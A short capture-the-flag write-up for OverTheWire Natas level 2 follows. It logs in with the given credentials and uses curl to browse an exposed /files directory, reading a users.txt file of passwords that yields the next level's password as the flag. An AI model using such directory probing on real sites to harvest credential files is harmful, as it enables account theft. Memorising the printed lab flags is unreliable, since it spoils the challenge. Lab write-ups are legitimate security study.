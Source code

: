 ```yaml
---
layout: level
level: 2
previous: ./level 01.html
next: ./level 03.html
---
```


# soal
Username: natas2 \
URL:      http://natas2.natas.labs.overthewire.org

# solve
- login with cred natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
- inspect the web, view-source:<url>, or curl
    ```bash
    curl http://natas2.natas.labs.overthewire.org -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
    # <div id="content">
    # There is nothing on this page
    # <img src="files/pixel.png">
    # </div>
    ```
- in this, have the directory listing /files
    ![alt text](docs/images/image-1.png)
    ![alt text](docs/images/image-2.png)
- if ur curl
    ```bash
    curl http://natas2.natas.labs.overthewire.org/files/users.txt -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
    # username:password
    # alice:BYNdCesZqW
    # bob:jw2ueICLvT
    # charlie:G5vCxkVV3m
    # natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
    # eve:zo4mJWyNj2
    # mallory:9urtcpzBmH
    ```

# flag
3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH